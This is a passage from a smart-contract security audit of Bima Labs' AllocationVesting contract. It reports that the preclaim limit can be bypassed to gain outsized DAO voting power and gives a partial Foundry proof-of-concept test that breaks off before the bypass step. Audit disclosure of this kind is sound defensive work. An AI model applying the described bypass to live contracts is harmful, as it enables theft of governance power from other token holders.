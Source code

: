 **Bima:**
Fixed in commits [9b69cbc](https://github.com/Bima-Labs/bima-v1-core/commit/9b69cbccde9a7a04e4565010b70d0fc5ba0849be#diff-cb0cf104b2cecec4497370ac4e4c839cecf6fc744430a058acc8465914b9e5ebR103-R106) and [7a52f26](https://github.com/Bima-Labs/bima-v1-core/commit/7a52f266420ea4cd4c6b4c87b5f600bfc7dc54ad).

**Cyfrin:** Verified.


### Maximum preclaim limit can be easily bypassed to preclaim entire token allocation

**Description:** The `AllocationVesting` contract allows token recipients to preclaim up to a maximum of their total token allocation, however this limit can easily by passed allowing recipients to preclaim their entire allocations.

**Impact:** Token allocation recipients can preclaim their entire allocations. Since preclaim performs a max-length lock via `TokenLocker`, this can be abused to quickly gain far greater voting power in the DAO than would otherwise be possible.

**Proof of Concept:** Add the PoC function to `test/foundry/dao/AllocationInvestingTest.t.sol`:
```solidity
function test_transferPoints_BypassVestingViaPreclaim() external {
    AllocationVesting.AllocationSplit[] memory allocationSplits
        = new AllocationVesting.AllocationSplit[](2);

    uint24 INIT_POINTS = 50000;

    // allocate to 2 users 50% 50%
    allocationSplits[0].recipient = users.user1;
    allocationSplits[0].points = INIT_POINTS;
    allocationSplits[0].numberOfWeeks = 4;

    allocationSplits[1].recipient = users.user2;
    allocationSplits[1].points = INIT_POINTS;
    allocationSplits[1].numberOfWeeks = 4;

    // setup allocations
    uint256 vestingStart = block.timestamp + 1 weeks;
    allocationVesting.setAllocations(allocationSplits, vestingStart);

    // warp to start time
    vm.warp(vestingStart + 1);

    // each entity receiving allocations is entitled to 10% preclaim
    // which they can use to get voting power by locking it up in TokenLocker
    uint256 MAX_PRECLAIM = (maxTotalPreclaimPct * totalAllocation) / (2 * 100);

    // user1 does this once, passing 0 to preclaim max possible
    vm.prank(users.user1);
    allocationVesting.lockFutureClaimsWithReceiver(users.user1, users.user1, 0);

    // user1 has now preclaimed the max allowed
    (, , , uint96 preclaimed) = allocationVesting.allocations(users.user1);
    assertEq(preclaimed, MAX_PRECLAIM);

    // user1 attempts it again
    vm.prank(users.user1);
    allocationVesting.lockFutureClaimsWithReceiver(users.user1, users.user1, 0);

    // but nothing additional is preclaimed
    (, , , preclaimed) = allocationVesting.allocations(users.user1);
    assertEq(preclaimed, MAX_PRECLAIM);

    // user 1 needs to wait 3 days to bypass LockedAllocation revert
    vm.warp(block.timestamp + 3 days);
```